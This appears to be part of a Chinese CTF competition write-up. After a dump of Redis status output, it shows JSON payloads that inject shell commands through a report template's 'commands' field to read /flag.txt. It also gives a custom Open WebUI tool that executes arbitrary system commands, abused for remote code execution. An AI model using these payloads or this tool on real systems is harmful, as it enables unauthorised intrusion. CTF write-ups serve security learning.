lazyfree_pending_objects:0
lazyfreed_objects:9

# Persistence
loading:0
async_loading:0
current_cow_peak:0
current_cow_size:0
current_cow_size_age:0
current_fork_perc:0.00
current_save_keys_processed:0
current_save_keys_total:0
rdb_changes_since_last_save:12
rdb_bgsave_in_progress:0
rdb_last_save_time:1758372929
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:0
rdb_current_bgsave_time_sec:-1
rdb_saves:3
rdb_last_cow_size:380928
rdb_last_load_keys_expired:0
rdb_last_load_keys_loaded:0
aof_enabled:1
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_rewrites:0
aof_rewrites_consecutive_failures:0
aof_last_write_status:ok
aof_last_cow_size:0
module_fork_in_progress:0
module_fork_last_cow_size:0
aof_current_size:2697
aof_base_size:88
aof_pending_rewrite:0
aof_buffer_length:0
aof_pending_bio_fsync:0
aof_delayed_fsync:0

# Stats
total_connections_received:7989
total_commands_processed:10969
instantaneous_ops_per_sec:0
total_net_input_bytes:164092
total_net_output_bytes:409348
total_net_repl_input_bytes:0
total_net_repl_output_bytes:0
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
instantaneous_input_repl_kbps:0.00
instantaneous_output_repl_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_subkeys:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
expire_cycle_cpu_milliseconds:1120
evicted_keys:0
evicted_clients:0
evicted_scripts:0
total_eviction_exceeded_time:0
current_eviction_exceeded_time:0
keyspace_hits:164
keyspace_misses:4
pubsub_channels:0
pubsub_patterns:0
pubsubshard_channels:0
latest_fork_usec:258
total_forks:1
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0
total_active_defrag_time:0
current_active_defrag_time:0
tracking_total_keys:0
tracking_total_items:0
tracking_total_prefixes:0
unexpected_error_replies:0
total_error_replies:31
dump_payload_sanitizations:0
total_reads_processed:18968
total_writes_processed:10983
io_threaded_reads_processed:0
io_threaded_writes_processed:0
client_query_buffer_limit_disconnections:0
client_output_buffer_limit_disconnections:0
reply_buffer_shrinks:39
reply_buffer_expands:11
eventloop_cycles:823770
eventloop_duration_sum:201034186
eventloop_duration_cmd_sum:43994
instantaneous_eventloop_cycles_per_sec:10
instantaneous_eventloop_duration_usec:256
acl_access_denied_auth:0
acl_access_denied_cmd:0
acl_access_denied_key:0
acl_access_denied_channel:0

# Replication
role:master
connected_slaves:0
master_failover_state:no-failover
master_replid:4ec7a6f3c1751b9ca2bb85a60ae0aaaabf98928a
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:24
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:26.989382
used_cpu_user:182.022643
used_cpu_sys_children:0.000426
used_cpu_user_children:0.001780
used_cpu_sys_main_thread:26.988181
used_cpu_user_main_thread:182.017391

# Modules

# Errorstats
errorstat_ERR:count=31

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=10,expires=10,avg_ttl=68250416,subexpiry=0
```

版本非常新，思考能否把那个数据库文件弄下来，搞半天弄不下来，观察两个web服务30是一个老的管理系统，其中有report，而这个report我正好在redis里面看到过





所以也就是说30可以用这个打，而40是一个open webui系统，不知道怎么整

先打30，经过不懈努力终于睡眠了

```json
{
  "data": {
    "type": "sales",
    "period": "monthly"
  },
  "template": {
    "template_type": "dynamic",
    "fields": [
      "sales",
      "revenue"
    ],
    "commands": [
      "sleep 5",
      "date"
    ]
  }
}
```

由于无法判断命令是否执行，并且这是gob反序列化，一般是在`/app`所以我们尝试写入静态目录下

```json
{
  "data": {
    "type": "sales",
    "period": "monthly"
  },
  "template": {
    "template_type": "dynamic",
    "fields": [
      "sales",
      "revenue"
    ],
    "commands": [
      "touch /app/static/1.txt && sleep 5",
      "date"
    ]
  }
}
```

成功执行，现在来获取flag即可

```json
{
  "data": {
    "type": "sales",
    "period": "monthly"
  },
  "template": {
    "template_type": "dynamic",
    "fields": [
      "sales",
      "revenue"
    ],
    "commands": [
      "tac /flag.txt > /app/static/3.txt && sleep 5",
      "date"
    ]
  }
}
```

然后现在去打40的openai webui的1day，我们首先就要考虑能够RCE的

## Shopping company2

by mo1u && baozongwi



拿到登录的账号密码，进去之后发现版本为v0.6.1 http://192.168.100.40:8080/auth?redirect=%2F

给open-webui加个deepseek的api，然后写一个工具，添加到open-webui的自定义工具里

```python
import os
import subprocess
import asyncio
from typing import Dict, Any


class Tools:
    def __init__(self):
        pass

    def execute_system_command(self, command: str, timeout: int = 30) -> str:
        """
        Execute a system command and return the output.
        
        WARNING: This tool allows execution of ANY system command without safety checks.
        Use with extreme caution as it can be dangerous and potentially harm your system.
        
        :param command: The system command to execute.
        :param timeout: Maximum time in seconds to wait for command completion.
        :return: The output of the command execution.
        """
        try:
            # Execute the command with a timeout
            result = subprocess.run(
                command,
                shell=True,
                capture_output=True,
                text=True,
                timeout=timeout
            )
            
            if result.returncode == 0:
                return f"Command executed successfully:\n{result.stdout}"
            else:
                return f"Command failed with error:\n{result.stderr}"
                
        except subprocess.TimeoutExpired:
            return f"Command timed out after {timeout} seconds."
        except Exception as e:
            return f"Error executing command: {str(e)}"

    async def execute_system_command_async(self, command: str, timeout: int = 30) -> str:
        """
        Execute a system command asynchronously and return the output.
        
        WARNING: This tool allows execution of ANY system command without safety checks.
        Use with extreme caution as it can be dangerous and potentially harm your system.
        
        :param command: The system command to execute.
        :param timeout: Maximum time in seconds to wait for command completion.
        :return: The output of the command execution.
        """
        try:
            # Execute the command asynchronously with a timeout
            process = await asyncio.create_subprocess_shell(
                command,
                stdout=asyncio.subprocess.PIPE,
                stderr=asyncio.subprocess.PIPE
            )
            
            try:
                stdout, stderr = await asyncio.wait_for(
                    process.communicate(),
                    timeout=timeout
                )
                
                if process.returncode == 0:
                    return f"Command executed successfully:\n{stdout.decode('utf-8')}"
                else:
                    return f"Command failed with error:\n{stderr.decode('utf-8')}"
                    
            except asyncio.TimeoutError:
                process.kill()
                await process.communicate()
                return f"Command timed out after {timeout} seconds."
                
        except Exception as e:
            return f"Error executing command: {str(e)}"

    def list_directory_contents(self, path: str = ".") -> str:
        """
        List the contents of a directory.
        
        :param path: The directory path to list. Defaults to current directory.
        :return: A formatted string with directory contents.
        """
        try:
            if not os.path.exists(path):
                return f"Path '{path}' does not exist."
                
            if not os.path.isdir(path):
                return f"'{path}' is not a directory."
                
            items = os.listdir(path)
            if not items:
                return f"Directory '{path}' is empty."
                
            # Format the output
            result = f"Contents of '{path}':\n"
            for item in items:
                full_path = os.path.join(path, item)
                if os.path.isdir(full_path):
                    result += f"[DIR]  {item}/\n"
                else:
                    size = os.path.getsize(full_path)
                    result += f"[FILE] {item} ({size} bytes)\n"
                    
            return result
            
        except Exception as e:
            return f"Error listing directory: {str(e)}"

    def get_system_info(self) -> str:
        """
        Get basic system information.
        
        :return: A string with system information.
        """
        try:
            info = []
            
            # Get platform information
            import platform
            info.append(f"System: {platform.system()}")
            info.append(f"Node: {platform.node()}")
            info.append(f"Release: {platform.release()}")
            info.append(f"Version: {platform.version()}")
            info.append(f"Machine: {platform.machine()}")
            info.append(f"Processor: {platform.processor()}")
            
            # Get memory information (Linux/Mac)
            if platform.system() in ["Linux", "Darwin"]:
                try:
                    with open('/proc/meminfo', 'r') as meminfo:
                        for line in meminfo:
                            if line.startswith('MemTotal:'):
                                info.append(f"Total Memory: {line.split()[1]} {line.split()[2]}")
                                break
                except:
                    pass
                    
            return "\n".join(info)
            
        except Exception as e:
            return f"Error getting system info: {str(e)}"

    def get_current_working_directory(self) -> str:
        """
        Get the current working directory.
        
        :return: The current working directory path.
        """
        try:
            return f"Current working directory: {os.getcwd()}"
        except Exception as e:
            return f"Error getting current directory: {str(e)}"

    def change_directory(self, path: str) -> str:
        """
        Change the current working directory.
        
        :param path: The path to change to.
        :return: A confirmation message or error.
        """
        try:
            os.chdir(path)
            return f"Changed directory to: {os.getcwd()}"
        except Exception as e:
            return f"Error changing directory: {str(e)}"
```

这个function的功能如下

> - execute_system_command: 执行系统命令（同步）
> - execute_system_command_async: 执行系统命令（异步）
> - list_directory_contents: 列出目录内容
> - get_system_info: 获取系统信息
> - get_current_working_directory: 获取当前工作目录
> - change_directory: 更改当前工作目录

`execute_system_command <命令>`直接实现rce

## 小结

从机场下来就在打，差不多参与了四道题，最后亚军还有京东卡一张，爽歪歪。

事前李师傅和我说先冲个前五，我觉得我们没什么问题，但是肯定不是我C，是二进制那边，结果这次二进制太难了，所以就轮到我和web大手了😄
